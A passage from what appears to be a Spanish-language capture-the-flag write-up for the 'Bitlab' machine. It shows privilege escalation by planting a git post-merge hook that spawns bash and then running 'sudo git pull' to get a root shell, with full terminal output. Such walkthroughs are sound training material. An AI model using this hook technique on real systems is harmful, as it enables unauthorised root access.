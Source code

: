 Creamos un script que se llama ```post-merge``` adentro de ```.git/hooks``` para conseguir un shell como root y le damos permisos de ejcución:

```console
www-data@bitlab:/tmp/profile$ cd .git/hooks
cd .git/hooks
www-data@bitlab:/tmp/profile/.git/hooks$ echo 'exec /bin/bash 0<&2 1>&2' > post-merge
< 'exec /bin/bash 0<&2 1>&2' > post-merge
www-data@bitlab:/tmp/profile/.git/hooks$ chmod u+x post-merge
chmod u+x post-merge
```

Una vez que hicimos eso, subimos cualquier archivo (no importa cuál!) a gitlab y lo mergeamos, una vez que hacemos eso desde la ruta donde tenemos permisos, ejecutamos ```sudo git pull``` y con eso ahora somos root:

```console
www-data@bitlab:/tmp/profile$ sudo git pull
sudo git pull
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (3/3), done.
Unpacking objects: 100% (3/3), done.
remote: Total 3 (delta 2), reused 0 (delta 0)
From ssh://localhost:3022/root/profile
   35da5b2..cbbc729  master     -> origin/master
 * [new branch]      patch-2    -> origin/patch-8
Updating 35da5b2..cbbc729
Fast-forward
 1asf | 1 +
 1 file changed, 1 insertion(+)
 create mode 100644 1asf
root@bitlab:/tmp/profile# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bitlab:/tmp/profile# cd /root    
cd /root
root@bitlab:~# ls   
ls 
root.txt
root@bitlab:~# wc -c root.txt
wc -c root.txt
33 root.txt
```

Con esto ya podemos irnos a ````/home``` y ver ahí la flag de user y de root.

## Más allá de root

Como dije en el principio del post, hay dos caminos para esta máquina:
Ok, as I said at the begining of the post, there are 2 paths to get this box:

1 - El modo "pensado por el creado" (user -> root) es haciendo ingenieria inversa.
2 - Aprovecharse de configuraciones mal hechas.
